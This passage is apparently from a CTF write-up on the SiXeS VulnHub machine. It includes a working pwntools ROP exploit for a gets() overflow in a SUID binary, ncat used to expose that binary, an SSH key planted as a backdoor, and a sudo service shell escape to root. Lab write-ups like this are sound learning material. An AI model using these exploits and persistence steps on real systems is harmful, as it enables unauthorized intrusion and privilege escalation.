

In a nutshell: 
* Takes care of using the SUID 
* Prints the text banner
* hands over to update_notes() function
* Prints closing text once function has been completed and closes the programm

update_notes function:  



In a nutshell:
* creates buffer for input (local_118 with 264 Bytes)
* checks if output file exists and is writable (/home/webmaster/notes.txt)
* receives user input with vulnerable gets function and stores it to local_118 variable
* writes output into file

What we need to do now is to create the exploit by using a technique which is called ROP Chaining. 

There is a very good youtube tutorial for an exactly similar CTF challenge by John Hammond: https://www.youtube.com/watch?v=i5-cWI_HV8o

Since I wouldn't be able to explain it better than he does, I'll just show the resulting exploit code which you will get by following his steps and adapting them for our scenario:

~~~py
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'

offset = 280

elf = ELF("./notemaker")
#p = elf.process()
p = remote("10.0.2.5", 9999)

rop = ROP(elf)
rop.call(elf.symbols["puts"], [elf.got['puts']])
rop.call(elf.symbols["main"])

p.recvuntil("Start typing >> ")

payload = [
	b"A" * offset,
	rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)

puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))

log.info(f"puts found at {hex(puts)}")

libc = ELF("libc-2.27.so")
libc.address = puts - libc.symbols["puts"]
log.info(f"libc base address determined {hex(libc.address)}")

rop = ROP(libc)
rop.call("puts", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("system", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("exit")

payload = [
	b"A" * offset,
	rop.chain()
]
payload = b"".join(payload)
p.sendline(payload)

p.interactive()
~~~

Just a few remarks:
* We determine our payload needs to have a 280 Bytes offset
* We also leak the address of the `puts` function
* But then we need to jump back to the `main` function again
* The library which is used on the target SiXeS VM is `libc-2.27.so`. 

  We see that with the following find command
  ~~~
  www-data@sixes:/var/www/html/img$ find / -name "libc*.so" 2>/dev/null
  [...]
  /lib/x86_64-linux-gnu/libc-2.27.so
  ~~~
  This library needs to be downloaded and referenced to determine the correct offset for the target system

And last but not least: in contrast to the CTF challenge which John is facing, our binary is not reachable remotly via a specific port. Theoretically we could also adapt our python script to run locally on the binary on SiXeS VM. Python3 is installed on there, but pwntools are missing. Since we don't have admin privileges yet, we can't easily install them. So we have to come up with an idea to make it available remotely.

This can be done with `ncat`, but we also have to upload it, together with a required library, via meterpreter. 

Since we still are a low privileged user, probably the only destination we can write to is /tmp/. But that's sufficient. 

If we check ncat with ldd after upload, we notice that library `liblua5.3.so.0` is missing
~~~
www-data@sixes:/tmp$ ldd ncat
ldd ncat
	linux-vdso.so.1 (0x00007ffcce323000)
	libssl.so.1.1 => /usr/lib/x86_64-linux-gnu/libssl.so.1.1 (0x00007fd0fd3c9000)
	libcrypto.so.1.1 => /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1 (0x00007fd0fcefe000)
	liblua5.3.so.0 => not found
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd0fcb0d000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fd0fc8ee000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fd0fc6ea000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd0fd656000)
  ~~~

So we also have to upload it. 


Having that prepared, we can "remote enable" notemaker via ncat on port 9999 (which is also what our python exploit script will connect to).
~~~
www-data@sixes:/tmp$ LD_LIBRARY_PATH=. ./ncat -l 9999 --exec /sbin/notemaker
~~~
The `LD_LIBRARY_PATH=.` is required that ncat can find the `liblua5.3.so.0` library in the /tmp/ directory.



Now if everything is prepared well, we can just execute our selfcrafted exploit which will do all the magic for us and should provide us an escalated shell on SiXeS:



EPIC! :smile:

Now we can easily grab the 5th flag:



Before we go on, now it's time to make our access more persistent. In case our connection should drop, we would need to go all the way back to the initial meterpreter shell, launch the ncat, launch the exploit, etc. 

We are "webmaster" now, but we have no possibility to know his password. But we can easily create "a backdoor" by deploying our own .ssh key to allow us direct ssh access.

~~~
┌──(root💀kali-VM)-[~/SiXeS]
└─# ssh-keygen -t rsa -b 1024 -N '' -f id_rsa
Generating public/private rsa key pair.
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:cDzlCMB4v3G/KtK1+ppYif0sjj0pgWRGTsHuoZsGZkM root@kali-VM
The key's randomart image is:
+---[RSA 1024]----+
| ..+...   .      |
|  = o  o +       |
| = . .. = .      |
| EB   oo..       |
|.* o   +S.       |
|o+o .o... .      |
|+o. .o+o . .     |
|o.  o=*+. .      |
|.   o+*B=.       |
+----[SHA256]-----+
                                                                                                                                           
┌──(root💀kali-VM)-[~/SiXeS]
└─# cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQCwGcCiKP5UpvzU0B21kcOHUC2N3qVPToO5oupLvPj6lHNhbI/8ew/YJZc9ngx69gf9EWS1MKReJaOGMviSwemnItXrzS8eetqv9HnP6UCeJ8S8tWSAtrZiaqL+cfAogQ0PW8DEFHPUc16NmLKP8IocDsRNnRmaS9VSjGGRH5+RMQ== root@kali-VM
~~~

On our SiXeS Exploit Shell: 
~~~
$ id
uid=1000(webmaster) gid=1000(webmaster) groups=1000(webmaster),33(www-data)
$ pwd
/home/webmaster
$ mkdir .ssh
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQCwGcCiKP5UpvzU0B21kcOHUC2N3qVPToO5oupLvPj6lHNhbI/8ew/YJZc9ngx69gf9EWS1MKReJaOGMviSwemnItXrzS8eetqv9HnP6UCeJ8S8tWSAtrZiaqL+cfAogQ0PW8DEFHPUc16NmLKP8IocDsRNnRmaS9VSjGGRH5+RMQ== root@kali-VM" > .ssh/authorized_keys
$ chmod -R 700 .ssh
~~~

Now we can easily ssh into the webmaster account:



## Flag 6: Getting root

On to the last flag now! By checking webmasters files, we find out that the root user left him the following notes via his /sbin/notemaker setup:
~~~
webmaster@sixes:~$ cat notes.txt 
2019-10-02 21:08:05 ~-> root said: Hey webmaster, in case the web server goes down, I gave you some privileges so you can start/stop/restart it whenever you want. Cheers.
2019-10-02 21:08:33 ~-> root said: Hey again, how many times should I repeat that YOU SHOULD NEVER USE GETS? Seriously, even the compiler reminds you... Go fix it now or I'll delete your minecraft account.
~~~

He should have listend to him regarding the gets, but now it's too late =)

With `sudo -l`  we can see what root means regarding providing the privileges to webmaster:

~~~
webmaster@sixes:~$ sudo -l
Matching Defaults entries for webmaster on sixes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webmaster may run the following commands on sixes:
    (root) NOPASSWD: /usr/sbin/service
~~~

Very interesting: webmaster is allowed to execute /usr/sbin/service as root without the need to provide a password. 

The intention is that this should allow him to restart services. Probably he was messing up the webserver soo much that root got sick of it and finaly thought webmaster should maintain it himself ...

e.g.
~~~
webmaster@sixes:~$ sudo -u root /usr/sbin/service apache2 restart
~~~

A quick google research reveals that this is a huge security risk: https://gtfobins.github.io/gtfobins/service/

What root probably couldn't imagine is that this can also be abused to spawn other processes (and even shells).

~~~
webmaster@sixes:~$ sudo /usr/sbin/service ../../bin/bash
~~~

Now we have fully owned the machine and can grab the root flag!



If you are interested in how the machine works "behind the curtains", check out the 2 other folders
* in `firewall` you will find the answer why dirb and sqlmap is suffering heavily
* in `xss_simulator` you will see how the mechanism of flag 3 is working 

## Personal remarks
As I'm writing this in September 2020, it's now almost a year since the machine was published on vulnhub where I discovered it. Because of the Binary Exploit Part needed for Flag #5 it was really a challenge and way "above my paygrade" back then. I couldn't solve it for a very long time, but I always wanted to make it and publish a writeup - because I couldn't find one back then. So I kept learning while playing OverTheWire and participating in CTFs. And I kept coming back to SiXeS every once in a while to see if the new Tricks I learned from e.g. OTW Leviathan and Narnia would help. In the end it took realy longer than I could have imagined, but I made it and it was worth it!!

And hey, just as I succeded now with Flag No 5, I noticed that some people in China/Hongkong where half a year faster than me: 
https://freehk.top/2020/03/29/sixes/ - Congratulations, you won by far :)

But that's not important. Important is that this machine was a real tough challenge which kept me motivated and made me learn sooooooooooo much new incredible stuff!

Many thanks to the Author Hafidh ZOUAHI and of course also to all the people who share their knowledge and write such great writeups, do youtube videos or create challenges so that others could learn! 

Keep it up, you're the best! :D

